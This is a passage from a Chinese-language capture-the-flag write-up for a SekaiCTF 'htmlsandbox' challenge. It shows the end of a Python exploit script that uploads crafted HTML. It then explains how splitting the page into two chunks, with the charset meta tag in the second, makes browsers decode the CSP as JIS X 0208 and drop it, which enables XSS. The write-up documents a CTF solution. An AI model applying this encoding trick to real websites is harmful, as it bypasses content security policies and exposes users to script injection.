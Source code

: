 ```py
    </body>
</html>'''

html = c1 + c2
with open('test.html', "wb") as f:
   f.write(html)

r = requests.post('https://htmlsandbox.chals.sekai.team/upload', data={'html': html})
print(r.text)
```

在使用 data URI 的時候，整個 HTML 就是被當作 utf-8 來解析，沒什麼問題。

但被當作網頁來造訪的時候，由於分成了兩個 chunk，而 `<meta charset="utf-8">` 出現在第二個 chunk，因此第一個 chunk 會用 `JIS X 0208 1983` 來解析，CSP 就變成了一堆亂碼，被拿掉了。

讀到第二個 chunk 時看到 meta，就切換成 UTF-8，照常載入，如此一來就可以擺脫 CSP，達成 XSS。

這個 encoding 利用的細節可以參考：[Encoding Differentials: Why Charset Matters](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)。
